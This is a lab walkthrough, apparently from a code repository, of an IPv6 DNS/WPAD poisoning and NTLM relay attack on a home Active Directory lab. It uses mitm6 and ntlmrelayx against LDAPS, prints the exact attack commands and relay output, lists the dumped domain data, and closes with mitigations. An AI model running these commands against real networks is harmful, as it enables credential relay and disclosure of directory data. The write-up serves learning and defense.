









# IPv6 DNS/WPAD Poisoning + NTLM Relay to LDAPS

## Overview

This walkthrough documents an **authorized Active Directory lab attack** using:

- **mitm6** — IPv6/DHCPv6 and DNS poisoning
- **ntlmrelayx** — captures NTLM authentication over HTTP and relays it
- **WPAD** — Web Proxy Auto-Discovery used as the HTTP authentication trigger
- **LDAPS** — LDAP over TLS on TCP/636 as the relay target
- **Active Directory** — the final target from which domain information was enumerated and dumped

The lab domain is:

```text
evil.corp
```

The relevant systems are:

| System | Role | IPv4 |
|---|---|---:|
| DC1 | Domain Controller / AD DS | `192.168.56.10` |
| CTO | Windows 10 workstation / victim | `192.168.56.20` |
| CYDECK | Windows 10 workstation / victim | `192.168.56.30` |
| Kali | Attacker | `192.168.56.50` |

The successful attack demonstrated in the screenshots is:

```text
              EVIL.CORP
                  |
          +-------+-------+
          |               |
        DC1              Clients
     .56.10          CTO .56.20
                    CYDECK .56.30
          ^               |
          |               |
          |        IPv6/DNS/WPAD
          |          poisoning
          |               |
          |             mitm6
          |               |
          +------ ntlmrelayx
                 HTTP -> LDAPS
                       |
                       v
                  DC1 / AD DS
                       |
                       v
               Domain enumeration
                  and loot dump
```

> **Important:** This is an NTLM relay attack against the user's own lab environment. The objective here is to understand the authentication flow and the resulting Active Directory exposure.

---

# 1. Attack Scenario

## 1.1 The security problem

Traditional IPv4-only assumptions can leave an Active Directory environment exposed when IPv6 is enabled but not properly controlled.

Windows systems commonly support IPv6 by default. If a Windows client is willing to obtain IPv6 network configuration dynamically, an attacker on the same Layer-2 network can attempt to impersonate the network's IPv6 configuration services.

In this lab, `mitm6` abuses that behavior.

The high-level sequence is:

```text
1. Client starts or renews network configuration
2. mitm6 provides attacker-controlled IPv6/DNS information
3. Client begins using the poisoned DNS configuration
4. Client attempts WPAD discovery
5. ntlmrelayx receives the HTTP request
6. Windows performs NTLM authentication
7. ntlmrelayx relays the authentication to LDAPS on DC1
8. DC1 accepts the relayed authentication
9. ntlmrelayx performs LDAP-based enumeration
10. Domain information is written to lootme/
```

The important concept is that the attacker does **not** need to recover the user's password.

Instead, the attack abuses the fact that an NTLM authentication exchange can potentially be **forwarded to another service**.

---

# 2. Important Concepts

## 2.1 IPv6

IPv6 is enabled by default on modern Windows installations.

A Windows host can use IPv6 configuration mechanisms such as DHCPv6 and Router Advertisements to learn network information.

The lab attacker uses `mitm6` to interfere with this configuration process.

The attacker's Kali system has:

```text
IPv4: 192.168.56.50
Interface: eth1
```

The screenshots show mitm6 using:

```text
Primary adapter: eth1
IPv4 address: 192.168.56.50
```

---

## 2.2 mitm6

`mitm6` is designed for IPv6-based man-in-the-middle attacks against Windows environments.

In this scenario it is used to:

- respond to IPv6 configuration requests
- provide attacker-controlled IPv6 information
- influence DNS resolution
- spoof DNS responses
- facilitate WPAD discovery

The important point is that mitm6 is primarily establishing the **network/DNS poisoning stage**.

It does not itself perform the final NTLM relay.

That is handled by `ntlmrelayx`.

---

## 2.3 DNS poisoning

DNS translates names such as:

```text
dc1.evil.corp
```

into IP addresses.

During this attack, mitm6 can provide spoofed DNS responses for names relevant to the attack.

The screenshot shows spoofed responses for names including:

```text
evil.corp
wpad.evil.corp
fakewpad.evil.corp
```

This is important because the victim needs to be directed toward the attacker's HTTP service.

---

# 3. WPAD

## 3.1 What is WPAD?

WPAD stands for:

**Web Proxy Auto-Discovery Protocol**

Windows clients can use WPAD to automatically discover proxy configuration.

One common discovery mechanism involves requesting:

```text
http://wpad/wpad.dat
```

The `wpad.dat` file contains proxy configuration information.

In this attack, WPAD becomes useful because the request reaches the attacker's HTTP server.

---

## 3.2 Why WPAD matters to NTLM relay

The relevant chain is:

```text
Windows client
      |
      | HTTP request
      v
attacker-controlled WPAD service
      |
      | NTLM authentication
      v
ntlmrelayx
      |
      | relay authentication
      v
DC1 LDAPS
```

The victim does not intentionally provide the attacker with a password.

Instead, Windows automatically authenticates to a service when required.

That authentication can then potentially be relayed to another service that accepts the same authentication mechanism.

---

# 4. NTLM Relay

## 4.1 What is NTLM?

NTLM is a Windows authentication protocol based on a challenge-response mechanism.

Conceptually:

```text
Client                         Server
  |                              |
  | -------- negotiate --------> |
  | <--------- challenge ------- |
  | -------- response ---------> |
  |                              |
  |       authentication         |
```

The response is derived from secret credential material.

The attacker does not necessarily need to know the user's plaintext password.

---

## 4.2 What is NTLM relay?

NTLM relay takes an authentication exchange received from one service and forwards it to another service.

Conceptually:

```text
Victim
  |
  | NTLM authentication
  v
Attacker
  |
  | relay
  v
Target service
```

In this lab:

```text
CTO / CYDECK
      |
      | HTTP + NTLM
      v
 ntlmrelayx
      |
      | LDAP/LDAPS authentication
      v
 DC1 : 636
```

This is fundamentally different from cracking an NTLM hash.

The attack abuses **authentication forwarding** rather than recovering the original password.

---

# 5. LDAPS

## 5.1 LDAP

LDAP stands for:

**Lightweight Directory Access Protocol**

Active Directory exposes directory services through LDAP.

LDAP can be used to query information such as:

- users
- groups
- computers
- organizational information
- domain policy information
- directory attributes

---

## 5.2 LDAPS

LDAPS is LDAP protected by TLS.

The conventional port is:

```text
TCP/636
```

In this lab:

```text
DC1 = 192.168.56.10
LDAPS = 192.168.56.10:636
```

The relay target was configured as:

```text
ldaps://192.168.56.10
```

Using LDAPS is significant because the relay is being performed against the directory service over a TLS-protected LDAP connection.

TLS protects the connection between the attacker and the LDAPS service, but it does not automatically prevent NTLM relay when the authentication protocol itself remains relayable.

---

# 6. Lab Prerequisites

Before running the attack, the lab should contain:

### Domain Controller

```text
Hostname: DC1
Domain: evil.corp
IPv4: 192.168.56.10
OS: Windows Server 2022
```

### Windows clients

```text
CTO
IPv4: 192.168.56.20

CYDECK
IPv4: 192.168.56.30
```

### Attacker

```text
Kali Linux
IPv4: 192.168.56.50
Interface: eth1
```

All systems must be connected to the same lab network so that the attacker can interact with the Windows clients at Layer 2.

---

# 7. Starting the Attack

## 7.1 Start ntlmrelayx

From Kali:

```bash
sudo impacket-ntlmrelayx -6 \
  -t ldaps://192.168.56.10 \
  -wh fakewpad.evil.corp \
  -l lootme
```

### Option breakdown

#### `sudo`

Runs the process with the privileges required to bind to the relevant network services.

#### `impacket-ntlmrelayx`

Starts Impacket's NTLM relay server.

#### `-6`

Enables IPv6 support for the relay operation.

This is used because the attack is based around IPv6-generated traffic.

#### `-t ldaps://192.168.56.10`

Defines the relay target.

The target is:

```text
DC1
192.168.56.10
```

and the protocol is:

```text
LDAPS
```

#### `-wh fakewpad.evil.corp`

Specifies the WPAD host used by the HTTP server.

This works together with the mitm6/WPAD portion of the attack.

#### `-l lootme`

Specifies the directory in which ntlmrelayx writes LDAP/domain enumeration output.

---

# 8. Start mitm6

In a second Kali terminal:

```bash
sudo mitm6 -d evil.corp -i eth1
```

### Option breakdown

#### `-d evil.corp`

Specifies the Active Directory DNS domain.

```text
evil.corp
```

#### `-i eth1`

Specifies the interface connected to the AD lab network.

The screenshot confirms:

```text
Primary adapter: eth1
IPv4 address: 192.168.56.50
```

---

# 9. mitm6 Poisoning Evidence

The mitm6 screenshot is important because it demonstrates that the poisoning stage actually occurred.

The output contains entries such as:

```text
IPv6 address fe80::3975:1 is now assigned ...
host=CTO.evil.corp
```

and:

```text
IPv6 address fe80::3975:3 is now assigned ...
host=CYDECK.evil.corp
```

It also shows DC1:

```text
host=dc1.evil.corp
ipv4=192.168.56.10
```

The output contains spoofed responses for:

```text
wpad.evil.corp
fakewpad.evil.corp
evil.corp
```

### Screenshot



---

# 10. Booting the Windows Clients

For this lab demonstration, CTO and CYDECK were started while mitm6 was already running.

This is useful because Windows network initialization can generate the traffic needed for the poisoning stage.

The important victim in the successful relay is:

```text
CTO
192.168.56.20
```

CYDECK also generated WPAD/HTTP traffic and was observed by ntlmrelayx.

A DC reboot is **not a fundamental requirement of the attack**.

If a reboot is used during troubleshooting, it should be documented as a method of generating fresh network/authentication activity rather than as a prerequisite.

---

# 11. WPAD Requests Reaching ntlmrelayx

The ntlmrelayx screenshot shows:

```text
(HTTP): Client requested path: /wpad.dat
```

This is strong evidence that the WPAD stage is working.

The server also received requests such as:

```text
http://ipv6.msftconnecttest.com/connecttest.txt
```

and:

```text
http://www.msftconnecttest.com/connecttest.txt
```

These requests demonstrate that the Windows clients were communicating through the attacker-controlled HTTP service.

The screenshot also shows:

```text
(HTTP): Serving PAC file to client
```

A PAC file is a:

**Proxy Auto-Configuration file**

It tells the client how to configure its proxy behavior.

---

# 12. CTO NTLM Relay

The first successful relay screenshot shows:

```text
(HTTP): Connection from ::ffff:192.168.56.20 controlled,
attacking target ldaps://192.168.56.10
```

This identifies:

```text
Source:
CTO
192.168.56.20

Target:
DC1
192.168.56.10
```

The authentication then succeeds:

```text
Authenticating connection from EVIL/CTO$@...192.168.56.20
against ldaps://192.168.56.10 SUCCEED
```

The `$` is significant.

```text
CTO$
```

represents the **computer account** of the CTO workstation in Active Directory.

Windows domain-joined computers have machine accounts in AD, conventionally ending with `$`.

---

# 13. LDAP Privilege Enumeration

After successful authentication, ntlmrelayx reports:

```text
Enumerating relayed user's privileges
```

This indicates that the LDAP relay was accepted sufficiently for ntlmrelayx to continue interacting with Active Directory.

The important distinction is:

```text
Authentication succeeded
```

does not automatically mean:

```text
Domain Administrator privileges obtained
```

The privilege level is determined by the identity that was relayed and what that identity is permitted to access.

In this case, the relay was used to perform directory enumeration.

---

# 14. Domain Information Dump

The most important result in the first successful run is:

```text
Dumping domain info for first time
```

followed by:

```text
Domain info dumped into lootdir!
```

This is the clearest indication that the LDAP/LDAPS relay reached the directory and obtained domain information.

---

# 15. Second Successful Run — TYRELL

After the DC and relay process were restarted, the second run produced another successful authentication.

The screenshot shows:

```text
Connection from ::ffff:192.168.56.20 controlled,
attacking target ldaps://192.168.56.10
```

followed by:

```text
Authenticating connection from EVIL/TYRELL@...192.168.56.20
against ldaps://192.168.56.10 SUCCEED
```

This time the relayed identity is:

```text
EVIL/TYRELL
```

rather than:

```text
EVIL/CTO$
```

This demonstrates an important point:

**The identity performing the Windows authentication can vary depending on the authentication event that generated the HTTP request.**

The screenshot then shows repeated privilege enumeration:

```text
[1] -> Enumerating relayed user's privileges
[2] -> Enumerating relayed user's privileges
[3] -> Enumerating relayed user's privileges
```

and finally:

```text
[3] -> Dumping domain info for first time
```

followed by:

```text
Domain info dumped into lootdir!
```

### Screenshot



---

# 16. Loot Directory

The relay command used:

```bash
-l lootme
```

Therefore the resulting LDAP enumeration was stored under:

```text
lootme/
```

The screenshot shows files including:

```text
domain_computers.grep
domain_computers.html
domain_computers.json
domain_computers_by_os.html

domain_groups.grep
domain_groups.html
domain_groups.json

domain_policy.grep
domain_policy.html
domain_policy.json

domain_trusts.grep
domain_trusts.html
domain_trusts.json

domain_users.grep
domain_users.html
domain_users.json
domain_users_by_group.html
```

### Screenshot



The file listing is also shown in:



---

# 17. Understanding the Loot

The HTML reports provide a readable representation of the directory information obtained through the successful relay.

The screenshots supplied with this walkthrough show several categories.

---

## 17.1 Domain users

The domain users report contains accounts including:

```text
WebService
Darlene Alderson
Cisco Ramirez
Philip Price
Susan Jacob
Angela Moss
Elliot Alderson
SQL Service
Gideon Goddard
Terry Colby
Tyrell Wellick
krbtgt
Guest
Administrator
```

The report includes attributes such as:

- CN
- account name
- SAM account name
- group membership
- primary group
- creation time
- modification time
- last logon
- account flags
- password-last-set information
- SID
- description

### Screenshot




---

# 18. Domain Computer Accounts

The computer report identifies:

```text
CTO
CYDECK
DC1
```

with their corresponding machine accounts.

The screenshot shows:

| Computer | SAM account | DNS hostname | Operating system |
|---|---|---|---|
| CTO | `CTO$` | `CTO.evil.corp` | Windows 10 Pro |
| CYDECK | `CYDECK$` | `Cydeck.evil.corp` | Windows 10 Pro |
| DC1 | `DC1$` | `DC1.evil.corp` | Windows Server 2022 Standard Evaluation |

### Screenshot



The DC1 entry also contains:

```text
SERVER_TRUST_ACCOUNT
TRUSTED_FOR_DELEGATION
```

These are AD account attributes associated with the domain controller computer account.

---

# 19. Domain Groups

The domain groups report contains both custom lab groups and built-in Active Directory groups.

Examples visible in the report include:

```text
Remote Desktop Operators
SQL Admins
HelpDesk
Developers
Finance
HR
IT
DnsUpdateProxy
DnsAdmins
Enterprise Key Admins
Key Admins
Protected Users
Cloneable Domain Controllers
Enterprise Read-only Domain Controllers
Read-only Domain Controllers
Denied RODC Password Replication Group
Allowed RODC Password Replication Group
```

### Screenshot



This information is valuable during AD enumeration because group membership can reveal:

- administrative relationships
- department membership
- delegated privileges
- security boundaries
- service administration roles
- potential privilege escalation paths

---

# 20. Users by Group

The `domain_users_by_group.html` report organizes users according to their group membership.

The screenshot shows, for example:

```text
Developers
    Darlene Alderson
    Cisco Ramirez
```

### Screenshot



This kind of output is particularly useful during an AD assessment because users and groups can be analyzed together.

For example:

```text
User
  ↓
Group membership
  ↓
Group permissions
  ↓
Access to resources
```

---

# 21. Domain Policy

The domain policy report contains configuration information such as:

```text
Lockout time window:      30.0 minutes
Lockout duration:         30.0 minutes
Lockout threshold:        0
Max password age:         42 days
Min password age:         1 day
Min password length:     7
Password history length: 24
Password properties:     PASSWORD_COMPLEX
Machine account quota:   10
```

### Screenshot



### Important observation

The screenshot shows:

```text
Lockout Threshold = 0
```

This means account lockout is disabled by this policy setting.

The presence of:

```text
Lockout Duration = 30 minutes
```

does **not** mean that a user must wait 30 minutes for normal reauthentication.

This distinction is important when interpreting the domain policy.

---

# 22. What `All targets processed` Means

The ntlmrelayx output repeatedly contains:

```text
All targets processed!
```

and:

```text
Connection ... controlled, but there are no more targets left!
```

This does not mean that mitm6 failed.

The relay command specified a single target:

```text
ldaps://192.168.56.10
```

Once ntlmrelayx successfully processes that target, subsequent authentication attempts may be reported as having no remaining relay target.

Therefore, messages such as:

```text
Client requested path: /wpad.dat
```

can continue appearing even after the configured relay target has already been processed.

---

# 23. Why CTO and CYDECK Both Appeared

The mitm6 screenshot shows IPv6 activity for:

```text
CTO
CYDECK
DC1
```

The ntlmrelayx output also shows HTTP traffic from both:

```text
192.168.56.20  → CTO
192.168.56.30  → CYDECK
```

This is expected in the lab because both Windows clients were active while the poisoning service was running.

However, the successful relay target relationship shown in the screenshots is primarily:

```text
CTO / client
      ↓
192.168.56.20
      ↓
ntlmrelayx
      ↓
LDAPS
      ↓
192.168.56.10
DC1
```

CYDECK generated HTTP/WPAD traffic as well, but once the single LDAPS target had been processed, ntlmrelayx reported that there were no more targets available.

---

# 24. Complete Attack Chain

The complete demonstrated chain can be summarized as:

```text
                        ATTACKER
                    Kali 192.168.56.50
                           |
                    +------+------+
                    |             |
                  mitm6       ntlmrelayx
                    |             |
                    |             |
             IPv6/DNS/WPAD        |
                    |             |
          +---------+---------+    |
          |                   |    |
       CTO .20            CYDECK .30
          |                   |
          | HTTP/WPAD          | HTTP/WPAD
          +---------+----------+
                    |
                    | NTLM authentication
                    v
               ntlmrelayx
                    |
                    | LDAP/LDAPS relay
                    v
              DC1 .10:636
                    |
                    v
             Active Directory
                    |
                    v
           Domain enumeration
                    |
                    v
                 lootme/
```

---

# 25. What Was Actually Achieved

The screenshots demonstrate the following:

### Network poisoning

mitm6 successfully assigned spoofed IPv6 information and generated spoofed DNS responses.

### WPAD interception

ntlmrelayx received requests for:

```text
/wpad.dat
```

and served the PAC file.

### NTLM authentication capture

ntlmrelayx received authentication from the Windows clients.

Examples include:

```text
EVIL/CTO$
```

and:

```text
EVIL/TYRELL
```

### LDAPS relay

Authentication against:

```text
ldaps://192.168.56.10
```

was reported as:

```text
SUCCEED
```

### LDAP enumeration

ntlmrelayx enumerated the relayed identity's privileges and queried domain information.

### Domain information dump

The final result was:

```text
Domain info dumped into lootdir!
```

with multiple HTML, JSON, and grep-formatted reports.

---

# 26. What This Attack Did NOT Demonstrate

It is important not to overstate the result.

This walkthrough does **not** demonstrate:

- Domain Administrator compromise
- extraction of the domain `NTDS.dit`
- extraction of all domain password hashes
- cracking a user's password
- Golden Ticket creation
- DCSync
- arbitrary code execution on DC1

The demonstrated impact is:

```text
IPv6/DNS/WPAD poisoning
        ↓
NTLM relay
        ↓
Successful LDAPS authentication
        ↓
Active Directory enumeration
        ↓
Domain information disclosure
```

The screenshots support that conclusion directly.

---

# 27. Difference from the SMB Relay Attack

This attack should be documented separately from the previous SMB relay exercise.

## SMB relay exercise

```text
LLMNR/NBT-NS
      ↓
Responder
      ↓
NTLM
      ↓
SMB relay
      ↓
CTO
      ↓
SAM extraction
```

## IPv6 / mitm6 exercise

```text
IPv6/DHCPv6
      ↓
mitm6
      ↓
DNS/WPAD
      ↓
HTTP NTLM
      ↓
ntlmrelayx
      ↓
LDAPS
      ↓
Active Directory enumeration
      ↓
Domain information dump
```

The two attacks abuse NTLM relay concepts but use different poisoning mechanisms and different target protocols.

---

# 28. Troubleshooting Notes

## `Address already in use`

If mitm6 reports:

```text
OSError: [Errno 98] Address already in use
```

check whether an existing mitm6 process is already listening on UDP/53:

```bash
sudo ss -lntup | grep ':53'
```

If an old mitm6 process is present:

```bash
sudo pgrep -af mitm6
```

Terminate the old process:

```bash
sudo pkill -f mitm6
```

Then start mitm6 again.

---

## No WPAD requests

If mitm6 is running but ntlmrelayx receives no HTTP requests, verify the Windows client is actually participating in the IPv6/DNS configuration process.

A client reboot or network renewal can generate fresh network initialization traffic.

The relevant victim/client must be running.

---

## `Connection refused`

A previous attempt produced:

```text
socket connection error while opening:
[Errno 111] Connection refused
```

against LDAPS.

However, a successful TLS test against:

```text
192.168.56.10:636
```

showed that the LDAPS service itself was reachable.

The later successful run demonstrated that the relay configuration could in fact reach the target:

```text
against ldaps://192.168.56.10 SUCCEED
```

Therefore, the earlier connection-refused event should be treated as a transient/configuration/relay-state problem rather than evidence that LDAPS was permanently unavailable.

---

# 29. Cleanup

After completing the lab exercise, stop the attack processes.

Stop mitm6 with:

```text
Ctrl+C
```

If necessary:

```bash
sudo pkill -f mitm6
```

Stop ntlmrelayx with:

```text
Ctrl+C
```

If necessary:

```bash
sudo pkill -f ntlmrelayx
```

Then verify that UDP/53 is no longer occupied by mitm6:

```bash
sudo ss -lntup | grep ':53'
```

The Windows clients should also be returned to their normal DNS/IPv6 configuration if the lab environment requires it.

---

# 30. Security Mitigations

The lab demonstrates why organizations should consider the interaction between IPv6, WPAD, DNS, and NTLM.

Relevant defensive measures include:

## Disable unnecessary WPAD

If automatic proxy discovery is not required, disable it through appropriate Windows management policies.

## Control IPv6

Do not assume that IPv6 can be ignored simply because the organization's primary addressing scheme is IPv4.

IPv6 should be:

- intentionally deployed
- monitored
- filtered
- centrally managed

## Reduce NTLM usage

Where operationally possible, organizations should reduce dependence on NTLM and move toward stronger authentication mechanisms.

## Require appropriate signing/channel binding

Controls such as SMB signing and LDAP protections can reduce specific relay opportunities.

The exact mitigation depends on the protocol and authentication path.

## Monitor abnormal LDAP authentication

Defenders should monitor for unusual authentication patterns involving:

- workstation accounts
- LDAP/LDAPS
- unexpected source hosts
- unusual directory enumeration
- WPAD-related traffic

## Secure WPAD

If WPAD is required, ensure that its DNS and proxy-discovery infrastructure is centrally controlled and cannot be impersonated by an untrusted host.

---

# 31. Evidence Summary

| Stage | Evidence | Result |
|---|---|---|
| IPv6 poisoning | mitm6 assigned IPv6 addresses | Successful |
